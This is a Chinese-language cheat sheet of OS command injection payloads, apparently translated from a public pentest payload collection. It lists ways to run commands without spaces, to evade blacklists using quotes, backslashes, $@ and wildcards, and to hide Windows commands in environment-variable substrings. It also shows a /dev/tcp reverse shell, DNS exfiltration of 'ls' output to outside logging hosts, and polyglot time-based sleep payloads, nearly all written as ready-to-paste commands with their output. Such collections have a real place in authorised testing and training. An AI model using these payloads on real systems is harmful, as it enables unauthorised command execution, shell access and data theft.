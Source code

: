 # 命令注入

> 命令注入是一种允许攻击者在易受攻击的应用程序中执行任意命令的安全漏洞。

## 目录

* [工具](#工具)
* [绕过技巧](#绕过技巧)
  * [绕过空格](#绕过空格)
  * [黑名单绕过](#黑名单绕过)
   * [利用换行绕过](#利用换行绕过)
   * [使用单引号](#使用单引号)
   * [使用双引号](#使用双引号)
   * [使用正/反斜杠](#使用正/反斜杠)
   * [使用$@](#使用$@)
   * [使用通配符](#使用通配符)

* [DNS带外传输](#DNS带外传输)
* [多种混合绕过](#多种混合绕过)
* [参考](#参考)

## 工具

* [commix - Automated All-in-One OS command injection and exploitation tool](https://github.com/commixproject/commix)


## 绕过技巧

### 绕过空格

#### linux

```
root@kali:~/Desktop# cat</etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# {cat,/etc/passwd}

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# cat$IFS/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# cat${IFS}/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# X=$'uname\x20-a'&&$X

Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
```

```
root@kali:~/Desktop# sh</dev/tcp/127.0.0.1/9999
root

root@kali:~/Desktop# nc -lvvp 9999
listening on [any] 9999 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 34274
whoami
```

#### linux bash

Commands execution without spaces, $ or { } - Linux 

```
IFS=,;`cat<<<uname,-a`
```

#### windows

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```


### 黑名单绕过

#### 利用换行绕过

```
something%0Acat%20/etc/passwd
```

#### 使用单引号

```
root@kali:~/Desktop# w'h'o'am'i

root
```

#### 使用双引号

```
root@kali:~/Desktop# w"h"o"am"i

root
```

#### 使用正/反斜杠

```
root@kali:~/Desktop# w\ho\am\i

root
```

#### 使用$@

```
root@kali:~/Desktop# who$@ami

root

```

```
root@kali:~/Desktop# echo $0

bash
```


#### 使用通配符

```
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

```
C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## DNS带外传输

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'

ping -c 1 `ls`.3a43c7e4e57a8d0e2057.d.zhack.ca
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

推荐的在线dns测试平台：

- dnsbin.zhack.ca
- pingb.in

## 多种混合绕过

```
bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```
bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## 参考

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
